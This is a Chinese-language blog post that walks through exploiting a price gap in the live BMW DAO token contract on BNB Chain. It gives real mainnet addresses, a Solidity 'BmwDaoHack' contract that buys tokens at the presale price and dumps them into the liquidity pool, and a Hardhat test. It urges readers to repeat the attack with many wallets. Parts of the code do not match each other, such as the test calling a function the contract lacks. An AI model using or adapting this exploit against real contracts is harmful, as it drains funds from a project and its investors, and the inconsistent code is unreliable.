



# BMW DAO 套利漏洞分析和实现

# 1 前言

好久没写文章，沉浸了一段时间学了点技术，顺便找到个可以套利的合约。

本文会逐步分析 BMW DAO 合约的套利漏洞，并且实现，涉及到的源代码获取方式：关注并私信推特[@TokenKnow](https://twitter.com/TokenKnow)

- 确保你已经熟练使用Hardhat，将会用到Hardhat fork主网进行测试。

- 确保你已经熟练编写Contract和Js，可能会有其他诈骗分子引用文章并修改源码让你受骗（**代码已开源**）。

- **文章作者没有全部套利完**，如果你看懂了此篇文章，可以自己尝试去利用此漏洞套利（**代码已开源**），有疑问可以关注并私信（**不能从其他途径获取源码，以防受骗**），作者的推特[@TokenKnow](https://twitter.com/TokenKnow)。

# 2 分析官方网站获取合约ABI

官网地址：[http://bmwdao.co/](http://bmwdao.co/)

可以审查元素中发现Confirm按钮的点击事件指向了donateClick()方法，如图：



查看donateClick()方法，先是判断了是否连接了钱包，如果连接了钱包就会调用donate()方法，如图：



查看donate()方法，先是判断了传入的bnb必须小于等于1，如果小于等于1就会调用合约的donate()方法，如图：



我测试过，如果前端调用合约的donate()方法时，手动传入大于1bnb，也会报错，那就证明合约内也有校验。

到此为止，我们就知道了是调用了合约的donate()方法来进行公开私募（哪怕合约没开源，其他的没开源项目也可以分析他的网站来获取一些有用的东西）。

# 3 获取合约地址、Pair地址、Router地址

从官方添加流动性的交易中（0xe1bc05176f96e43986e342b73420a81287539dd2dd536a028b64320618846c4b）可得合约地址、Pair地址、Router地址，如图所示：

合约地址：0xffd7581fbad3713b049a64db4316e34614970777

Pair地址：0x45139fe54b18a419dc4a2e78ee25ccd7c72c8626

Router地址：0x10ed43c718714eb63d5aa57b78b54704e256024e

# 4 构建Hardhat项目Fork主网测试

本文重点不是Hardhat的使用，可参考其他Hardhat教程去熟练使用。

# 5 编写合约

### 5.1 定义路由接口

```
interface IUniswapV2Router {
    function swapExactETHForTokens(
        uint256 amountOutMin, 
        address[] calldata path, 
        address to, 
        uint256 deadline) external;
    function swapExactTokensForETH(
        uint256 amountIn, 
        uint256 amountOutMin, 
        address[] calldata path, 
        address to, 
        uint256 deadline) external;
}
```

swapExactETHForTokens：通过ETH换取代币

swapExactTokensForETH：通过代币换取ETH（本文主要用到了这个）

### 5.2 定义交易对接口

```
interface IUniswapV2Pair {
    function getReserves() external view returns (uint112 reserve0, uint112 reserve1, uint32 blockTimestampLast);
}
```

getReserves：获取交易对的流动性（主要用来计算价格）

### 5.3 定义BmwDao合约接口

```
interface IBmwDaoERC20 {
    function balanceOf(address account) external view returns (uint256);
    function donation() external payable returns(uint);
    function approve(address spender, uint256 value) external returns (bool);
}
```

balanceOf：获取代币余额

donation：公开私募

approve：授权（用于卖出代币时的授权）

### 5.4 定义主合约和主要属性

```
contract BmwDaoHack {

    address private owner = 0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266;

    address private bnb = 0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c;
    address private bmwdao = 0xFfd7581fbad3713b049A64db4316E34614970777;
    address private pair = 0x45139fe54B18a419dc4A2E78eE25Ccd7c72c8626;
    address private router = 0x10ED43C718714eb63d5aA57B78B54704E256024E;
    IUniswapV2Pair private bmwdaoPair = IUniswapV2Pair(pair);
    IUniswapV2Router private bmwdaoRouter = IUniswapV2Router(router);
    IBmwDaoERC20 private bmwdaoERC20 = IBmwDaoERC20(bmwdao);

}
```

### 5.5 定义获取公开私募的方法

```
function get() public payable {
    console.log("==========msg.value==========");
    console.log(msg.value);
    require(msg.sender == owner, "No permission.");
    bmwdaoERC20.donation{value: msg.value}();
    console.log("==========getContractBalance==========");
    console.log(getContractBalance());
    console.log("==========getContractBmwdaoBalance==========");
    console.log(getContractBmwdaoBalance());
}
```

### 5.6 定义卖出代币的方法

```
function sell() public {
    bmwdaoERC20.approve(router, 1000000000000);
    uint curTime = block.timestamp;
    curTime = curTime + 1200;
    (uint112 reserve0, uint112 reserve1, uint32 blockTimestampLast) = bmwdaoPair.getReserves();
    uint amountIn = getContractBmwdaoBalance();
    console.log(amountIn);

    uint left = reserve0 / reserve1;
    uint amountOutMin = left * amountIn;
    amountOutMin = amountIn * 997 * reserve0 / (reserve1 * 1000 + amountIn * 997);

    address[] memory path = new address[](2);
    path[0] = bmwdao;
    path[1] = bnb;

    address to = address(this);

    bmwdaoRouter.swapExactTokensForETH(amountIn, amountOutMin, path, to, curTime);
    console.log("==========succeed==========");
    console.log("==========getContractBalance==========");
    console.log(getContractBalance());
    console.log("==========getContractBmwdaoBalance==========");
    console.log(getContractBmwdaoBalance());
}
```

# 6 分开调用的原因

市场上有很多复制机器人，分步操作可防止复制机器人复制你的交易并提高gas在你之前打包交易上链，套利空间就会减少。

# 7 使用Hardhat测试合约

```
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe("BmwDaoHack", function() {
    it("init params", async function () {
        [deployer, ...users] = await ethers.getSigners();
    });
    it("BmwDaoHack Test", async function() {
        const BmwDaoHack = await ethers.getContractFactory("BmwDaoHack");
        const bmwDaoHack = await BmwDaoHack.deploy();
        
        await bmwDaoHack.deployed();

        await bmwDaoHack.connect(deployer).getAirdrop({ value: ethers.utils.parseEther("0.01") });
        await bmwDaoHack.connect(deployer).sell();
    });
});
```

# 8 执行结果

用**1BNB**私募了**1000BMW**代币

因流动池中**1BMW**可换**0.00146513BNB**

将私募的**1000BMW**换成**1.46513BNB**

完成套利！！！

按照官网中[http://bmwdao.co/](http://bmwdao.co/)所说：每个钱包最多只能私募1BNB的代币。

可以做个循环用多个钱包来进行套利。

# 9 后语

本文的作者对一切行为不负责，只秉承着技术交流分享。

文章发出前已联系项目方，你在操作上的盈利、亏损等由自己或项目方承担。

关注推特（[@TokenKnow](https://twitter.com/TokenKnow)），交流更多。